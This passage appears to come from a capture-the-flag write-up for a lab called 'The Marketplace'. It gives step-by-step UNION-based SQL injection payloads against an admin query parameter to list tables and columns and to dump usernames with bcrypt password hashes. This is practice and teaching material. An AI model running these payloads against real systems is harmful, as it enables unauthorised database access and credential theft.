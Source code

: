 	# Payload
	user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'
	
	## group_concat is used to append all the tables into one column to be displayed
	
	```
	![](theMarketplace sqli found tables.png)
	- Tables in marketplace database:
		- items
		- messages
		- users
9. Determine columns in `users` table
	```
	# SQLi Payload
	GET /admin?user=-1+UNION+SELECT+1,group_concat(column_name),3,4+FROM+information_schema.columns+WHERE+table_name='users' 
	
	# Payload
	user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
	```
	![](theMarketplace sqli found columns in user table.png)
	- Table: `Users`
		- isAdministrator: 1 or 0
		- password: hash
		- username: string
10. Determine value of columns in `users` table
	```
	# SQLi Payload
	GET /admin?user=-1+UNION+SELECT+1,group_concat(username,':',password),3,4+FROM+users
	
	# Payload
	0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
	```
	![](theMarketplace sqli found value of columns in table users.png)
	- Table: `users`
		- Column: username+password
		```
		system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,
		michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,
		jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,
		test:$2b$10$YXvIyq0R18BubtZWNAJ.m.HsAeZoke9Sbwk1sxryYPl0qwYTM.ZgG 
		```
11. Determine value of columns in `messages` table
	```
	# SQLi Payload
	GET /admin?user=-1+UNION+SELECT+1,group_concat(column_name),3,4+FROM+information_schema.columns+WHERE+table_name='messages'
	